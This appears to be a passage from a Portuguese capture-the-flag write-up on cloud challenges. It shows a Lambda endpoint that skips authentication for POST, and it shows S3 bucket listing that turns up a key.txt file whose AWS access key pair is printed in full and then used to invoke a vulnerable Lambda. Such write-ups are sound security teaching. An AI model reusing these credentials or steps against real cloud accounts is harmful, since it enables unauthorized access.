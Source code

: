 Mas basta então executar a mesma requisição com o método POST e a flag é retornada. Aparentemente a necessidade de autenticação não existe para todos os métodos HTTP ;)

```json
{
    "statusCode": 200,
    "body": "\"Hello from Lambda! flag: ZUP-{Infl3xA0_nB_r4_b_A}\""
}
```

### I made a mistake! ###

Esse desafio nos dá uma página html bem simples com uma dica 'Acho que está seguro'.

https://invoke-batata.s3-sa-east-1.amazonaws.com/index.html

Aproveitando que já tinha conseguido as credenciais da aws nos desafios anteriores, volto novamente ao aws cli e procuro por algo relacionado a este desafio por lá.

```shell
aws s3 ls s3://invoke-batata
```
![Mistake](/cloud/i-made-a-mistake/001.png)

E encontro um arquivo key.txt com outras credenciais AWS. Seto então essas credenciais como envs esperadas pelo aws cli

![Mistake](/cloud/i-made-a-mistake/002.png)

```shell
export AWS_ACCESS_KEY_ID=AKIAUYWIIKCH42OKFH7F
export AWS_SECRET_ACCESS_KEY=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
```

e executo os comandos abaixo

```shell
aws configure set region sa-east-1
aws lambda list-functions
aws lambda invoke --function-name VulnerableFunction response.json
```

Que fazem, respectivamente, listar as funções lambdas disponíveis e executar a "função vulnerável" que nos retorna a flag.

![Mistake](/cloud/i-made-a-mistake/003.png)
